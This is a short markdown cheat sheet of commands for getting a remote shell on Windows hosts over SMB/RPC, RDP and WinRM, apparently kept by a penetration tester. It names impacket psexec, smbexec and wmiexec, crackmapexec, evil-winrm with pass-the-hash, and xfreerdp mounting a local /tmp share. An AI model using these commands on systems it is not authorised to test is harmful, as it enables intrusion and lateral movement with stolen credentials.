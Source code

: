 # Remote Shell
## SMB & RPC: 445, 135
`impacket-psexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-smbexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-wmiexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
winexe

## RDP: 3389
`impacket-rdp_check '<DOMAIN>/<USER>:<PASS>@<IP>'` check
 `xfreerdp /u:DOMAIN\<USER> /p:<PASS> /v:<IP> /dynamic-resolution /drive:share,/tmp`
`remmina`

## WinRM: 5985, 5986
`crackmapexec winrm <IP> -u <USER> -p <PASS>` check
`evil-winrm -i <IP> -u <USER> -p <PASS>` (PtH)

## VNC
??